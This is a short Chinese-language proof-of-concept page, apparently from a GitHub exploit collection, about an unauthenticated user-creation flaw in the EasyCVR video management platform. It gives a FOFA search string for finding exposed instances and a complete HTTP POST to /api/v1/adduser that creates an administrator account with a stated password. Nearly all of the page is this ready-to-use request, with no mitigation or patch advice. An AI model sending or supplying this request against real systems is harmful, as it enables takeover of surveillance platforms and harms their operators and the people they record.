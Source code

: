 ## EasyCVR视频管理平台存在任意用户添加漏洞

  EasyCVR 视频管理平台是 TSINGSEE 青犀视频旗下一款软硬一体的产品，可提供多协议的设备接入、采集、AI 智能检测、处理、分发等服务，攻击者可通过`/api/v1/adduser`接口添加管理员账户



## fofa

```
app="EasyCVR-视频管理平台"
```



## poc

```
POST /api/v1/adduser HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

name=admin888&username=admin888&password=0e7517141fb53f21ee439b355b5a1d0a&roleid=1
```

`0e7517141fb53f21ee439b355b5a1d0a` 明文为 `Admin@123`

![image-20240521200022702](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405212000756.png)

